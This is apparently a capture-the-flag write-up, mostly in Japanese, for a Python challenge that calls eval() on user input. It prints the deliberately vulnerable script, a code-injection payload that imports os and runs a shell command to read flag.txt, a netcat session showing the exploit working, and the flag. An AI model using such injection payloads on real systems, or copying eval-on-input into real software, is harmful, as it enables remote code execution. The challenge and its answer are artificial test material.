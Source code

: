 # Eval is Evil

If eval is so bad, then why is it so easy to use?
nc evalisevil.kctf-453514-codelab.kctf.cloud 1337

chall.py 
```
import random

def main():
    
    print("Let's play a game, I am thinking of a number between 0 and", 2 ** 64, "\n")

    try:
        guess = eval(input("What is the number?: "))
    except:
        guess = 0

    correct = random.randint(0, 2**64)
    
    if (guess == correct):
        print("\nCorrect! You won the flag!")
        flag = open("flag.txt", "r").readline()
        print(flag)
    else:
        print("\nYou lost lol")

main()
```
- eval(input("What is the number?: ")) で入力を評価
- ランダムな数値 correct が生成され、入力した値と比較
- 一致すれば flag.txt からフラグが表示される


## solve

- eval() 関数を使っているので、数字以外の任意のPythonコードを実行できる

`__import__('os').system('cat flag.txt')`
osモジュールをインポートして、シェルコマンド cat flag.txt を実行し、フラグを直接表示させる

```
$ nc evalisevil.kctf-453514-codelab.kctf.cloud 1337
== proof-of-work: disabled ==
Let's play a game, I am thinking of a number between 0 and 18446744073709551616 

What is the number?: __import__('os').system('cat flag.txt')
wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}
```

## flag
`wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}`